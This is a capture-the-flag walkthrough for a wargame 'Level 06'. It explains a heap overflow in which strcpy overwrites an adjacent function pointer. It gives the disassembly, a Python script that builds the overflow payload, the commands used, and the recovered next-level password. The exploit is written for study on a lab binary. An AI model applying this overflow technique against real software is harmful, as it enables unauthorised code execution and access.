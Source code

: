 # Level 06 Walkthrough

## Binary analysis

The binary allocates two buffers with `malloc`: one for a string (0x40 bytes) and one for a function pointer (4 bytes). The function pointer is initialized to `m()`, which just prints "Nope". The user input (argv[1]) is copied into the string buffer with `strcpy`, which is vulnerable to overflow. After the copy, the function pointer is called. If we overflow the string buffer, we can overwrite the function pointer to point to `n()`, which calls `system("/bin/cat /home/user/level7/.pass")`.

Relevant code:
```
0804848c        char* str = malloc(bytes: 0x40)
0804849c        int32_t (** table)() = malloc(bytes: 4)
080484ae        *table = m
080484c5        strcpy(str, argv[1])
080484d3        return (*table)()

n() at 0x08048454: system("/bin/cat /home/user/level7/.pass")
m() at 0x08048468: puts("Nope")
```

## Exploitation

We overflow the string buffer to overwrite the function pointer with the address of `n()` (0x08048454).

Python script to generate the payload:
```python
from struct import pack

str_addr = 0x804a008  # Address returned by malloc for the string buffer
ptr_addr = 0x804a050  # Address returned by malloc for the function pointer
n_addr = 0x08048454   # Address of n()

payload = b"A" * (ptr_addr - str_addr) + pack("<I", n_addr)
with open("payload.txt", "wb") as f:
    f.write(payload)
```

## Commands used

```
./level6 $(cat payload.txt)
cat /home/user/level7/.pass
```

## Result

After running the exploit, we get the password for level7:

```
cat /home/user/level7/.pass
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Copy the password for the next level. 